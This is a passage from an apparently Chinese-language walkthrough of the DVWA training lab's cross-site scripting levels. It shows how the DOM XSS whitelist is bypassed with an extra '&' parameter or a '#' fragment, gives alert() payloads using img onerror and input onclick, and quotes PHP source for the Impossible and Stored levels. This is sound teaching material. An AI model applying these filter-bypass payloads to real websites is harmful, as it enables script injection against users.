 使用了白名单模式，如果`default`的值不为”French”、”English”、”German”、”Spanish”的话就重置URL为:`?default=English` ，这里只是对 default 的变量进行了过滤。

可以使用`&`连接另一个自定义变量来Bypass

**payload1**





none

```none
?default=English&a=</option></select><img src=x onerror=alert('XSS')>
?default=English&a=<input onclick=alert('XSS') />
```

也可以使用`#`来Bypass

**payload2**





none

```none
?default=English#</option></select><img src=x onerror=alert('XSS')>
?default=English#<input onclick=alert('XSS') />
```

## Impossible





php

```php
# For the impossible level, don't decode the querystring
$decodeURI = "decodeURI";
if ($vulnerabilityFile == 'impossible.php') {
    $decodeURI = "";
}
```

`Impossible` 级别直接不对我们的输入参数进行 URL 解码了，这样会导致标签失效，从而无法XSS

# XSS (Stored) 存储型跨站脚本

## Low





php

```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
```